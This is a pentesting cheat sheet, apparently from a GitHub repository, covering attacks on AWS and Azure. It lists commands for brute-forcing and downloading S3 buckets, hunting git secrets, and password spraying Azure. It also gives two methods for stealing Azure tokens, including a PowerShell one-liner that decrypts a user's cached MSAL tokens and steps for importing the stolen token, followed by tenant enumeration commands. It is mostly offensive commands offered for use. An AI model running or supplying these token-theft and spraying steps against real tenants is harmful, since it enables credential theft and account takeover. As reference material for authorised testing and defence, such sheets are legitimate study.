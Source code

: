 ## S3 bucket pillaging
#### Brute force bucket names
- https://github.com/initstring/cloud_enum
```
python3 cloud_enum.py -k <KEYWORD>
```

#### Use the AWS CLI to list the files of the s3 bucket
```
sudo aws s3 ls s3://<BUCKET> --profile <PROFILE>
```

#### Use the AWS CLI to download the files of the s3 bucket
```
sudo aws s3 sync s3://<BUCKET> s3-files-dir --profile <PROFILE>
```

## Git secrets
- https://github.com/zricethezav/gitleaks
#### Search for secrets
```
./gitleaks detect -v source ~/tools/gitleaks/
```

#### Use web browser to view the commit
```
https://github.com/[git account]/[repo name]/commit/[commit ID]
```

## Password spraying Azure
- https://github.com/dafthack/MSOLSpray

### Password spray

## Stealing azure tokens
### Method 1
#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Method 2
#### Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```
## Basic enumeration
#### Connect to Azure
```
Connect-AzAccount
```

#### Connect to MSOL
```
connect-msolservice
```

#### Get basic information
- Interesting information:
  - UsersPermissionToReadOtherUsersEnabled
  - DirSyncServiceAccount
  - PasswordSynchronizationEnabled
  - Address/phone/emails
```
Get-MSolCompanyInformation
```

#### Get the AZ subscriptions the user has access too
```
Get-AzSubscription
```

#### List the current context
```
Get-AzContext | fl *
```

#### Enumerate the roles of the current user
```
Get-AzRoleAssignment
```

#### List users of the subscription
```
Get-MSolUser -All
```

#### Get all commands for AZ and MSOnline
```
Get-Module -Name Az.Accounts | Select-Object -ExpandProperty ExportedCommands
Get-Module -Name MSOnline | Select-Object -ExpandProperty ExportedCommands
```
